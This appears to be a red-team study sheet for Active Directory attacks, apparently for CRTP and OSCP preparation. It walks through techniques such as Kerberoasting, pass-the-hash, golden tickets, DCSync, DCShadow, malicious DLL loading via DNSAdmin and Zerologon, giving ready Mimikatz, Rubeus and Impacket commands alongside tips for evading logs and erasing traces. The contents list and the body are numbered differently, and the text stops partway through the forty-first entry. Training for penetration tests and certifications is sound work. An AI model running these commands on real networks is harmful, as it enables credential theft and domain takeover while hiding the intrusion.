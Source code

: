 # 🛡️ Active Directory Attack Techniques (Red Team Edition)

This document provides a detailed walkthrough of **25 real-world Active Directory attack techniques**, optimized for **CRTP**, **OSCP**, and stealth-focused **Red Team operations**.

---

## ✅ Features

- 🔐 Realistic AD attacks (AS-REP Roasting, Kerberoasting, DCSync, etc.)
- 🧠 Understand how each technique works under the hood
- 🛠 Tools and usage examples
- 🕵️‍♂️ Red Team **stealth recommendations** for quiet execution
- 📥 Downloadable HTML [Interactive Checklist](./CRTP_OSCP_AD_CheckList.html) available

---

## 📑 Table of Contents
- [1. AS-REP Roasting](#as-rep-roasting)
- [2. Kerberoasting](#kerberoasting)
- [3. Pass-the-Hash (PtH)](#pass-the-hash)
- [4. Pass-the-Ticket (PtT)](#pass-the-ticket)
- [5. DCSync Attack](#dcsync-attack)
- [6. Unconstrained Delegation](#unconstrained-delegation)
- [7. Constrained Delegation](#constrained-delegation)
- [8. Resource-Based Constrained Delegation (RBCD)](#resource-based-constrained-delegation)
- [9. Silver Ticket](#silver-ticket)
- [10. Golden Ticket](#golden-ticket)
- [11. NTDS.dit Dump](#ntdsdit-dump)
- [12. GPP Passwords](#gpp-passwords)
- [13. LAPS Dumping](#laps-dumping)
- [14. AdminSDHolder Abuse](#adminsdholder-abuse)
- [15. ACL Abuse](#acl-abuse)
- [16. Printer Spooler Bug](#printer-spooler-bug)
- [17. Shadow Credentials](#shadow-credentials)
- [18. Certificate Template Escalation (ESC1)](#certificate-template-escalation)
- [19. Service Unquoted Path Abuse](#service-unquoted-path-abuse)
- [20. RDP Hijack](#rdp-hijack)
- [21. SAM & SYSTEM Hive Dump](#sam-%26-system-hive-dump)
- [22. LSA Secrets Dump](#lsa-secrets-dump)
- [23. RID Cycling](#rid-cycling)
- [24. Token Impersonation](#token-impersonation)
- [25. WMI Lateral Movement](#wmi-lateral-movement)
- [26. ADCS ESC1: Misconfigured Certificate Template](#adcs-esc1%3A-misconfigured-certificate-template)
- [27. ADCS ESC8: NTLM Relay to Web Enrollment](#adcs-esc8%3A-ntlm-relay-to-web-enrollment)
- [28. PetitPotam + ADCS (EFSRPC Coercion)](#petitpotam-%2B-adcs-%28efsrpc-coercion%29)
- [29. AdminSDHolder Persistence](#adminsdholder-persistence)
- [30. SID Filtering Bypass](#sid-filtering-bypass)
- [31. LDAP ACL Enumeration & Abuse](#ldap-acl-enumeration-%26-abuse)
- [32. Printer Bug (MS-RPRN Coercion)](#printer-bug-%28ms-rprn-coercion%29)
- [33. Unusual SPN Registration for Lateral Movement](#unusual-spn-registration-for-lateral-movement)
- [34. ESC2: Template with Weak ACL](#esc2%3A-template-with-weak-acl)
- [35. ESC3: Enrollable by Low-Priv Group](#esc3%3A-enrollable-by-low-priv-group)
- [36. ESC4: Manager Approval Misuse](#esc4%3A-manager-approval-misuse)
- [37. ESC5: Enroll as Machine Template](#esc5%3A-enroll-as-machine-template)
- [38. ESC6: Authenticated Users Can Enroll](#esc6%3A-authenticated-users-can-enroll)
- [39. ESC7: Vulnerable Unused Template](#esc7%3A-vulnerable-unused-template)
- [40. DCSync via GenericAll / Replication Rights](#dcsync-via-genericall--replication-rights)
- [41. Abusing GenericWrite on User Object](#abusing-genericwrite-on-user-object)
- [42. Overpass-the-Hash (Pass-the-Key)](#overpass-the-hash-%28pass-the-key%29)
- [43. RBCD via AddAllowedToAct (ACL Abuse)](#rbcd-via-addallowedtoact-%28acl-abuse%29)
- [44. Abusing Resource-Based Constrained Delegation (No Pre-auth)](#abusing-resource-based-constrained-delegation-%28no-pre-auth%29)
- [45. DCShadow Attack](#dcshadow-attack)
- [46. Golden Ticket Attack](#golden-ticket-attack)
- [47. Skeleton Key Attack](#skeleton-key-attack)
- [48. SIDHistory Injection](#sidhistory-injection)
- [49. AdminSDHolder Abuse](#adminsdholder-abuse)
- [50. Unconstrained Delegation Abuse](#unconstrained-delegation-abuse)
- [51. Kerberoasting with AES Keys](#kerberoasting-with-aes-keys)
- [52. Printer Bug + RBCD](#printer-bug-%2B-rbcd)
- [53. Kerberos SID Filtering Bypass](#kerberos-sid-filtering-bypass)
- [54. AS-REP Roasting (AES Variant)](#as-rep-roasting-%28aes-variant%29)
- [55. DNSAdmin to DC Compromise](#dnsadmin-to-dc-compromise)
- [56. Abusing ACL on GPO](#abusing-acl-on-gpo)
- [57. Shadow Credentials (Key Credential Link Attack)](#shadow-credentials-%28key-credential-link-attack%29)
- [58. Exchange PrivEsc via WriteDacl](#exchange-privesc-via-writedacl)
- [59. ReadGMSAPassword for Privilege Escalation](#readgmsapassword-for-privilege-escalation)
- [60. Kerberos Delegation Loop](#kerberos-delegation-loop)
- [61. Abuse Service Principal Name (SPN) via Resource-based Constrained Delegation](#abuse-service-principal-name-%28spn%29-via-resource-based-constrained-delegation)
- [62. Malicious GPO Deployment](#malicious-gpo-deployment)
- [63. Kerberos Constrained Delegation (KCD) Abuse](#kerberos-constrained-delegation-%28kcd%29-abuse)
- [64. Unquoted Service Path Privilege Escalation](#unquoted-service-path-privilege-escalation)

---



## 📋 Attack Descriptions


<a name="as-rep-roasting"></a>
<details>
  <summary><strong>1. AS-REP Roasting</strong></summary>

- **Purpose**: Offline cracking of user password hash  
- **Functionality**: Kerberos allows unauthenticated ticket requests for users with DONT_REQ_PREAUTH  
- **Why It's Vulnerable**: No pre-auth required, so TGT encrypted with weak password hash can be cracked  
- **How to Test**: Use `GetNPUsers.py` or `Rubeus` to extract AS-REP hashes  
```bash
# Using Impacket
GetNPUsers.py -dc-ip 192.168.1.10 domain.local/ -usersfile users.txt

# Using Rubeus
Rubeus.exe asreproast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Use known usernames only; avoid brute-forcing; low log footprint  
</details>

<a name="kerberoasting"></a>
<details>
  <summary><strong>2. Kerberoasting</strong></summary>

- **Purpose**: Offline password cracking of service accounts  
- **Functionality**: Any domain user can request service tickets for SPNs  
- **Why It's Vulnerable**: Tickets are encrypted with service account NTLM hash  
- **How to Test**: Extract SPN tickets using `GetUserSPNs.py` or `Rubeus`  
```bash
# Using Impacket
GetUserSPNs.py -request -dc-ip 192.168.1.10 domain.local/user:password

# Using Rubeus
Rubeus.exe kerberoast
```
- **Tools**: Impacket, Rubeus, hashcat  
- **Stealth Tips**: Limit SPN requests; monitor for Event ID 4769  
</details>

<a name="pass-the-hash"></a>
<details>
  <summary><strong>3. Pass-the-Hash (PtH)</strong></summary>

- **Purpose**: Authenticate without knowing plaintext password  
- **Functionality**: Windows allows authentication using NTLM hash  
- **Why It's Vulnerable**: Captured hashes can be reused for lateral movement  
- **How to Test**: Use tools to authenticate with just the hash  
```bash
# SMB via wmiexec
wmiexec.py domain.local/user@192.168.1.20 -hashes <NTLM>:<NTLM>

# WinRM
evil-winrm -i 192.168.1.20 -u user -H <NTLM>
```
- **Tools**: Mimikatz, Impacket, Evil-WinRM  
- **Stealth Tips**: Use valid hashes only; avoid brute-force; monitor 4624 events  
</details>

<a name="pass-the-ticket"></a>
<details>
  <summary><strong>4. Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Authenticate using forged or stolen Kerberos tickets  
- **Functionality**: Windows lets users inject TGT/TGS tickets into session  
- **Why It's Vulnerable**: Kerberos tickets can be reused or forged  
- **How to Test**: Inject ticket using `Rubeus` or `Mimikatz`  
```bash
# Dump existing tickets
Rubeus.exe dump

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi

# Or with Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Reuse only valid, short-lived tickets; monitor ticket injection  
</details>

<a name="overpass-the-hash"></a>
<details>
  <summary><strong>5. Overpass-the-Hash (Pass-the-Key)</strong></summary>

- **Purpose**: Generate TGT using NTLM hash instead of password  
- **Functionality**: NTLM hash used to request TGT via Kerberos  
- **Why It's Vulnerable**: Weak NTLM protection enables fake TGT generation  
- **How to Test**: Use `Rubeus` to request and inject TGT  
```bash
# Request TGT using NTLM
Rubeus.exe asktgt /user:<user> /rc4:<NTLM> /domain:<domain.local>

# Inject ticket
Rubeus.exe ptt /ticket:<base64>.kirbi
```
- **Tools**: Rubeus, hashcat  
- **Stealth Tips**: Avoid multiple TGT requests; clean up tickets post-use  
</details>

<a name="golden-ticket"></a>
<details>
  <summary><strong>6. Golden Ticket</strong></summary>

- **Purpose**: Forge a TGT for any user with unlimited lifetime  
- **Functionality**: Built using krbtgt NTLM hash  
- **Why It's Vulnerable**: Compromise of `krbtgt` account enables full domain persistence  
- **How to Test**: Use `Mimikatz` to forge and inject a TGT  
```powershell
# Mimikatz command
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-... /krbtgt:<hash> /ticket:golden.kirbi
kerberos::ptt golden.kirbi
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Use only when krbtgt hash is available; monitor 4768/4769 logs  
</details>

<a name="silver-ticket"></a>
<details>
  <summary><strong>7. Silver Ticket</strong></summary>

- **Purpose**: Forge TGS for specific service  
- **Functionality**: Uses service account NTLM hash (not krbtgt)  
- **Why It's Vulnerable**: No need to contact DC when using forged TGS  
- **How to Test**: Forge and inject TGS using Mimikatz or Rubeus  
```powershell
# Forge silver ticket
kerberos::golden /user:svcuser /domain:domain.local /sid:S-1-5-... /rc4:<NTLM> /service:cifs /target:hostname /ticket:silver.kirbi
kerberos::ptt silver.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: No DC contact makes detection harder; cleanup injected TGS  
</details>

<a name="dcsync-attack"></a>
<details>
  <summary><strong>8. DCSync Attack</strong></summary>

- **Purpose**: Extract password hashes directly from DC  
- **Functionality**: Abuse `Replicating Directory Changes` rights to mimic a DC  
- **Why It's Vulnerable**: Misconfigured ACLs grant replication rights  
- **How to Test**: Use Mimikatz `lsadump::dcsync`  
```powershell
lsadump::dcsync /domain:domain.local /user:Administrator
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Generates log 4662; use on stealthy admin accounts  
</details>

<a name="dcshadow-attack"></a>
<details>
  <summary><strong>9. DCShadow Attack</strong></summary>

- **Purpose**: Push malicious changes into AD (e.g., SIDHistory)  
- **Functionality**: Register rogue domain controller and replicate changes  
- **Why It's Vulnerable**: Abuse of replication permissions  
- **How to Test**: Use `mimikatz` DCShadow module  
```powershell
# In mimikatz
lsadump::dcshadow /object:CN=user,CN=Users,DC=domain,DC=local /attribute:Description /value:Hacked
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Hard to detect; monitor for rogue DC registrations  
</details>

<a name="shadow-credentials"></a>
<details>
  <summary><strong>10. Shadow Credentials</strong></summary>

- **Purpose**: Persist access using alternate credentials (KeyCredential)  
- **Functionality**: Add fake key to user object for silent authentication  
- **Why It's Vulnerable**: Misconfigured ACLs allow adding `msDS-KeyCredentialLink`  
- **How to Test**: Use `Whisker` or `pyWhisker`  
```bash
# Using pyWhisker
python3 pywhisker.py --action add --target 'user@domain.local' --sid S-1-5-... --cert-pfx evil.pfx
```
- **Tools**: pyWhisker, Rubeus, adidnsdump  
- **Stealth Tips**: Extremely stealthy; nearly no log footprint  
</details>


<a name="unconstrained-delegation"></a>
<details>
  <summary><strong>11. Unconstrained Delegation</strong></summary>

- **Purpose**: Impersonate any user who authenticates to a service  
- **Functionality**: TGTs are stored in memory and can be stolen  
- **Why It's Vulnerable**: Services with unconstrained delegation store user TGTs  
- **How to Test**: Identify systems with unconstrained delegation  
```powershell
# PowerView
Get-DomainComputer -Unconstrained

# Extract TGT from memory using Rubeus
Rubeus.exe dump
```
- **Tools**: PowerView, Rubeus, Mimikatz  
- **Stealth Tips**: Avoid crashing LSASS; use on logged-in targets  
</details>

<a name="constrained-delegation"></a>
<details>
  <summary><strong>12. Constrained Delegation</strong></summary>

- **Purpose**: Impersonate a user to a specific service  
- **Functionality**: Service can request TGS on behalf of user  
- **Why It's Vulnerable**: Misconfigured S4U2Self/S4U2Proxy allows impersonation  
- **How to Test**: Abuse using S4U attack with Rubeus  
```powershell
# S4U attack using Rubeus
Rubeus.exe s4u /user:<user> /rc4:<NTLM> /impersonateuser:Administrator /msdsspn:cifs/dc.domain.local /domain:<domain>
```
- **Tools**: Rubeus  
- **Stealth Tips**: No DC contact if ticket reused; monitor 4769 logs  
</details>

<a name="resource-based-constrained-delegation"></a>
<details>
  <summary><strong>13. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Impersonate users to target machine or service  
- **Functionality**: Target object controls its own delegation settings  
- **Why It's Vulnerable**: Any user with write access to target can configure delegation  
- **How to Test**: Use `GenericWrite`/`GenericAll` to set msDS-AllowedToActOnBehalfOfOtherIdentity  
```powershell
# Using PowerView
Set-ADComputer -Identity TARGET -PrincipalsAllowedToDelegateToAccount ATTACKER$

# Using Rubeus and S4U
Rubeus.exe s4u ...
```
- **Tools**: PowerView, Rubeus, SharpHound  
- **Stealth Tips**: Clean up delegation entries post-exploitation  
</details>

<a name="printer-bug-coercion"></a>
<details>
  <summary><strong>14. Printer Bug (SpoolSample)</strong></summary>

- **Purpose**: Coerce authentication from remote machine  
- **Functionality**: Exploit MS-RPRN to trigger SMB authentication  
- **Why It's Vulnerable**: Misuse of Print Spooler to trigger outbound auth  
- **How to Test**: Use `SpoolSample` or `rpcdump`  
```bash
# SpoolSample
SpoolSample.exe <victim-ip> <attacker-ip>
```
- **Tools**: SpoolSample, Inveigh  
- **Stealth Tips**: Use with relaying setup (e.g., ntlmrelayx)  
</details>

<a name="shadow-admins"></a>
<details>
  <summary><strong>15. Shadow Admins</strong></summary>

- **Purpose**: Persistence via indirect privilege escalation  
- **Functionality**: Users granted rights over admin accounts  
- **Why It's Vulnerable**: Misconfigured ACLs allow privilege chaining  
- **How to Test**: Identify users/groups with indirect control  
```powershell
# Using PowerView
Invoke-ACLScanner | ? { $_.IdentityReference -like "*admin*" }
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Shadow paths harder to detect than DA membership  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <summary><strong>16. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persistent privilege escalation  
- **Functionality**: Changes to AdminSDHolder propagate to protected accounts  
- **Why It's Vulnerable**: Write access to AdminSDHolder object gives domain rights  
- **How to Test**: Add user to AdminSDHolder's ACL  
```powershell
# Using PowerView
Add-ADPermission -Identity "CN=AdminSDHolder,CN=System,DC=domain,DC=local" -User attacker -ExtendedRights "All"
```
- **Tools**: PowerView, ADSI Edit  
- **Stealth Tips**: Change re-applies every 60 minutes; remove afterward  
</details>

<a name="acl-based-privesc"></a>
<details>
  <summary><strong>17. ACL-Based PrivEsc</strong></summary>

- **Purpose**: Escalate privileges using misconfigured object permissions  
- **Functionality**: WriteDACL/GenericAll enables adding membership or privileges  
- **Why It's Vulnerable**: Poor delegation of permissions  
- **How to Test**: Identify writeable objects using BloodHound or PowerView  
```powershell
# With PowerView
Invoke-ACLScanner

# Add user to group
Add-ADGroupMember -Identity "Domain Admins" -Members attacker
```
- **Tools**: PowerView, BloodHound  
- **Stealth Tips**: Clean audit trails, remove attacker after use  
</details>

<a name="gmsa-abuse"></a>
<details>
  <summary><strong>18. gMSA Abuse</strong></summary>

- **Purpose**: Abuse Group Managed Service Account to gain lateral access  
- **Functionality**: Passwords for gMSAs are retrievable by authorized systems  
- **Why It's Vulnerable**: Misconfigured read permissions allow extraction  
- **How to Test**: Use Mimikatz or custom tools to extract gMSA password  
```powershell
# Using Mimikatz
lsadump::gmsa
```
- **Tools**: Mimikatz, ADModule  
- **Stealth Tips**: Very stealthy if done from authorized machine  
</details>

<a name="ldap-signing-downgrade"></a>
<details>
  <summary><strong>19. LDAP Signing Downgrade</strong></summary>

- **Purpose**: Downgrade secure LDAP communication for interception  
- **Functionality**: Disable signing requirements to perform MITM  
- **Why It's Vulnerable**: Default configuration allows unsigned LDAP  
- **How to Test**: Use `ntlmrelayx` with LDAP relaying  
```bash
# Relaying NTLM to LDAP
ntlmrelayx.py -t ldap://dc.domain.local --escalate-user attacker
```
- **Tools**: Impacket, Responder, ntlmrelayx  
- **Stealth Tips**: Combine with coercion attacks (e.g., PetitPotam)  
</details>

<a name="zerologon"></a>
<details>
  <summary><strong>20. Zerologon (CVE-2020-1472)</strong></summary>

- **Purpose**: Full DC compromise via Netlogon flaw  
- **Functionality**: Exploits all-zero challenge to bypass auth  
- **Why It's Vulnerable**: Flawed cryptographic implementation in Netlogon  
- **How to Test**: Use `Zerologon` PoC or `impacket` script  
```bash
# Test
python3 zerologon_tester.py dc.domain.local

# Exploit
python3 zerologon_exploit.py dc.domain.local
```
- **Tools**: Impacket, CVE PoC  
- **Stealth Tips**: Very noisy; avoid unless authorized  
</details>

<a name="dnsadmin-to-dc-compromise"></a>
<details>
  <summary><strong>21. DNSAdmin to DC Compromise</strong></summary>

- **Purpose**: Elevate privileges to SYSTEM on a Domain Controller  
- **Functionality**: DNSAdmin can load DLLs through `dnscmd`  
- **Why It's Vulnerable**: DNS server service runs as SYSTEM and loads external DLLs  
- **How to Test**: Load a malicious DLL via `dnscmd`  
```bash
dnscmd <dc> /config /serverlevelplugindll \attacker\share\malicious.dll
# Restart DNS service
sc \<dc> stop dns
sc \<dc> start dns
```
- **Tools**: dnscmd, msfvenom, smbserver.py  
- **Stealth Tips**: Clean up DLL path and logs after use  
</details>

<a name="password-spray"></a>
<details>
  <summary><strong>22. Password Spray</strong></summary>

- **Purpose**: Identify weak passwords across many users  
- **Functionality**: Attempts same password for multiple users to avoid lockout  
- **Why It's Vulnerable**: AD doesn’t detect horizontal brute force effectively  
- **How to Test**: Use CrackMapExec or Hydra  
```bash
crackmapexec smb <target> -u users.txt -p 'Password123'
```
- **Tools**: CrackMapExec, Hydra, Kerbrute  
- **Stealth Tips**: Respect lockout policy; long wait between tries  
</details>

<a name="llmnr-nbt-ns-poisoning"></a>
<details>
  <summary><strong>23. LLMNR/NBT-NS Poisoning</strong></summary>

- **Purpose**: Capture NetNTLMv2 hashes from network  
- **Functionality**: Responds to broadcast name resolution requests  
- **Why It's Vulnerable**: LLMNR/NBT-NS enabled by default  
- **How to Test**: Run Responder on local subnet  
```bash
responder -I eth0
```
- **Tools**: Responder, Hashcat  
- **Stealth Tips**: Only use when legitimate traffic exists  
</details>

<a name="golden-ticket"></a>
<details>
  <summary><strong>24. Golden Ticket</strong></summary>

- **Purpose**: Create forged TGTs to impersonate any user  
- **Functionality**: TGTs can be forged using KRBTGT hash  
- **Why It's Vulnerable**: Domain compromise gives access to KRBTGT  
- **How to Test**: Extract KRBTGT hash and forge TGT  
```powershell
# Mimikatz
lsadump::lsa /patch
kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21... /krbtgt:<hash>
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Set realistic lifetime, timestamps; avoid reuse  
</details>

<a name="silver-ticket"></a>
<details>
  <summary><strong>25. Silver Ticket</strong></summary>

- **Purpose**: Access services without contacting DC  
- **Functionality**: TGS can be forged using service account’s NTLM hash  
- **Why It's Vulnerable**: TGS validation does not require DC communication  
- **How to Test**: Use hash to forge TGS with Mimikatz or Rubeus  
```powershell
# Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Avoid Kerberos event logs; direct access to service  
</details>

<a name="privileged-session-hijack"></a>
<details>
  <summary><strong>26. Privileged Session Hijack</strong></summary>

- **Purpose**: Steal or reuse high-privilege token/session  
- **Functionality**: Session tokens in memory can be reused  
- **Why It's Vulnerable**: High-privilege sessions often left active  
- **How to Test**: Enumerate and steal token using Mimikatz  
```powershell
# Mimikatz
token::list
token::elevate
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Avoid alerting interactive users  
</details>

<a name="kerberos-unconstrained-delegation-ticket-theft"></a>
<details>
  <summary><strong>27. Kerberos Unconstrained Delegation Ticket Theft</strong></summary>

- **Purpose**: Steal TGTs from systems with delegation enabled  
- **Functionality**: Attacker can extract TGT from memory after victim login  
- **Why It's Vulnerable**: Unconstrained delegation caches TGT in memory  
- **How to Test**: Wait for login, extract TGT  
```powershell
# Rubeus
Rubeus.exe dump
```
- **Tools**: Rubeus, Mimikatz  
- **Stealth Tips**: Passive collection; avoid causing logon  
</details>

<a name="kerberos-over-pass-the-ticket"></a>
<details>
  <summary><strong>28. Kerberos Over Pass-the-Ticket (PtT)</strong></summary>

- **Purpose**: Use forged TGT/TGS to authenticate  
- **Functionality**: Inject Kerberos ticket into current session  
- **Why It's Vulnerable**: No validation of origin of ticket  
- **How to Test**: Inject valid TGT  
```powershell
# Rubeus or Mimikatz
kerberos::ptt ticket.kirbi
```
- **Tools**: Mimikatz, Rubeus  
- **Stealth Tips**: Use short lifetime; remove ticket after use  
</details>

<a name="kerberos-rc4-ticket-renewal"></a>
<details>
  <summary><strong>29. Kerberos RC4 Ticket Renewal</strong></summary>

- **Purpose**: Extend lifetime of Kerberos tickets  
- **Functionality**: Re-request new ticket using valid one  
- **Why It's Vulnerable**: Reuse of hash for encryption allows forging  
- **How to Test**: Use RC4 key with Rubeus  
```powershell
# Rubeus
Rubeus.exe renew /ticket:<kirbi>
```
- **Tools**: Rubeus  
- **Stealth Tips**: Limit renewals; use realistic renewal times  
</details>

<a name="delegation-chaining"></a>
<details>
  <summary><strong>30. Delegation Chaining</strong></summary>

- **Purpose**: Pivot through multiple delegation relationships  
- **Functionality**: Abuse chained constrained delegation  
- **Why It's Vulnerable**: Hard to audit complex chains  
- **How to Test**: Enumerate delegation paths using BloodHound  
```bash
# BloodHound
Collect data → Analyze delegation edges
```
- **Tools**: BloodHound, Rubeus  
- **Stealth Tips**: Use with known chains only; avoid failed impersonation  
</details>


<a name="kerberos-resource-based-constrained-delegation-rbcd"></a>
<details>
  <summary><strong>31. Resource-Based Constrained Delegation (RBCD)</strong></summary>

- **Purpose**: Elevate privileges by controlling another computer’s delegation rights  
- **Functionality**: Modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute  
- **Why It's Vulnerable**: Computers can be delegated rights to impersonate users  
- **How to Test**: Create a computer account, set RBCD on target, and impersonate  
```powershell
# Powermad
New-MachineAccount -MachineAccount "owned$" -Password "Password123!"
Set-ADComputer 'TARGET' -PrincipalsAllowedToDelegateToAccount 'owned$'
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Avoid AD logs; use short-lived account  
</details>

<a name="shadow-credentials"></a>
<details>
  <summary><strong>32. Shadow Credentials</strong></summary>

- **Purpose**: Persist access by planting alternate credentials  
- **Functionality**: Abuse msDS-KeyCredentialLink attribute  
- **Why It's Vulnerable**: Weak ACLs allow editing sensitive attributes  
- **How to Test**: Inject certificate or key credential  
```powershell
# Whisker or pyWhisker
pywhisker add -u targetuser -d domain -k c:\cert.pfx
```
- **Tools**: pyWhisker, Certify  
- **Stealth Tips**: Avoid changing primary credentials; clean up afterward  
</details>

<a name="acl-based-privilege-escalation"></a>
<details>
  <summary><strong>33. ACL-Based Privilege Escalation</strong></summary>

- **Purpose**: Abuse weak ACLs to gain privileges  
- **Functionality**: Modify rights on sensitive objects (e.g., user, computer)  
- **Why It's Vulnerable**: Delegation often misconfigured  
- **How to Test**: Enumerate ACLs using BloodHound  
```bash
# SharpHound/BloodHound
Collect ACL data → Analyze Effective Permissions
```
- **Tools**: BloodHound, PowerView, ADACLScanner  
- **Stealth Tips**: Use inherited ACLs stealthily; revert after use  
</details>

<a name="dcsync"></a>
<details>
  <summary><strong>34. DCSync Attack</strong></summary>

- **Purpose**: Dump password hashes for any domain user  
- **Functionality**: Mimics domain controller behavior to replicate secrets  
- **Why It's Vulnerable**: User with Replication rights can pull hashes  
- **How to Test**: Use Mimikatz with DCSync  
```powershell
# Mimikatz
lsadump::dcsync /domain:domain.local /user:krbtgt
```
- **Tools**: Mimikatz  
- **Stealth Tips**: Target only necessary users; avoid dumping all  
</details>

<a name="unquoted-service-path"></a>
<details>
  <summary><strong>35. Unquoted Service Path</strong></summary>

- **Purpose**: Exploit unquoted service path to execute malicious binary as SYSTEM  
- **Functionality**: Service with unquoted path and spaces can execute attacker binary  
- **Why It's Vulnerable**: OS treats path as space-delimited and searches left-to-right  
- **How to Test**: Place executable in one of the interpreted paths  
```powershell
# Identify service
wmic service get name,pathname,startmode | findstr /i "Auto"
```
- **Tools**: PowerUp, sc.exe  
- **Stealth Tips**: Restart service quietly; clean up dropped binary  
</details>

<a name="alwaysinstall-elevated-misconfiguration"></a>
<details>
  <summary><strong>36. AlwaysInstallElevated Misconfiguration</strong></summary>

- **Purpose**: Gain SYSTEM privileges via MSI installer  
- **Functionality**: Exploit policy that allows non-admins to run MSIs as SYSTEM  
- **Why It's Vulnerable**: Admins leave AlwaysInstallElevated registry key set  
- **How to Test**: Check registry keys and run malicious MSI  
```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
msfvenom -p windows/exec CMD=calc.exe -f msi > evil.msi
msiexec /quiet /qn /i evil.msi
```
- **Tools**: msfvenom, msiexec  
- **Stealth Tips**: Rename MSI, clean up registry traces  
</details>

<a name="service-permissions-abuse"></a>
<details>
  <summary><strong>37. Service Permissions Abuse</strong></summary>

- **Purpose**: Modify service config to execute code as SYSTEM  
- **Functionality**: Misconfigured permissions allow binary path modification  
- **Why It's Vulnerable**: Services run as SYSTEM and permissions often too broad  
- **How to Test**: Use accesschk to find writable services, modify path  
```bash
accesschk.exe -uwcqv "Authenticated Users" * /svc
sc config <service> binpath= "cmd.exe /c calc.exe"
```
- **Tools**: sc.exe, accesschk.exe  
- **Stealth Tips**: Restore original path; clean artifacts  
</details>

<a name="wmi-event-subscription-persistence"></a>
<details>
  <summary><strong>38. WMI Event Subscription Persistence</strong></summary>

- **Purpose**: Maintain persistence through WMI triggers  
- **Functionality**: Subscribes to system events and executes payload  
- **Why It's Vulnerable**: WMI is deeply integrated and hard to audit  
- **How to Test**: Create a permanent event subscription  
```powershell
# PowerShell example
$Filter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter ...
```
- **Tools**: PowerShell, WMI Explorer  
- **Stealth Tips**: Name events benignly; delete after use  
</details>

<a name="admin-sdholder-abuse"></a>
<details>
  <summary><strong>39. AdminSDHolder Abuse</strong></summary>

- **Purpose**: Persist elevated privileges via protected groups template  
- **Functionality**: AdminSDHolder replicates ACLs to high-privilege users every 60 min  
- **Why It's Vulnerable**: Modifying AdminSDHolder can give you rights over domain admins  
- **How to Test**: Add self as full control in ACLs of AdminSDHolder  
```powershell
Set-ADACL -Target "CN=AdminSDHolder,CN=System,DC=domain,DC=local" ...
```
- **Tools**: PowerView, ADSIEdit  
- **Stealth Tips**: Remove ACLs after use; high risk  
</details>

<a name="domain-controller-sync-via-rbcd"></a>
<details>
  <summary><strong>40. Domain Controller Sync via RBCD</strong></summary>

- **Purpose**: Gain full replication rights and extract hashes  
- **Functionality**: Combines RBCD + DCSync to replicate secrets  
- **Why It's Vulnerable**: If RBCD set on DC object, DCSync becomes possible  
- **How to Test**: Create computer, set delegation to DC, and DCSync  
```powershell
# Powermad + Rubeus
New-MachineAccount ...
Set-RBCD on DC → Use Rubeus DCSync
```
- **Tools**: Powermad, Rubeus, mimikatz  
- **Stealth Tips**: Use temporary objects; clear evidence  
</details>


<a name="netlogon-zero-logon-cve-2020-1472"></a>
<details>
  <summary><strong>41. Netlogon ZeroLogon (CVE-2020-1472)</strong></summary>

- **Purpose**: Gain domain admin access by exploiting Netlogon protocol flaw  
- **Functionality**: Sends crafted Netlogon messages with zeroed fields  
- **Why It's Vulnerable**: Cryptographic flaw allows spoofing DC credentials  
- **How to Test**: Run Python PoC to authenticate as DC  
```bash
python3 zerologon_tester.py dc-name dc-ip
```
- **Tools**: Impacket, ZeroLogon exploit scripts  
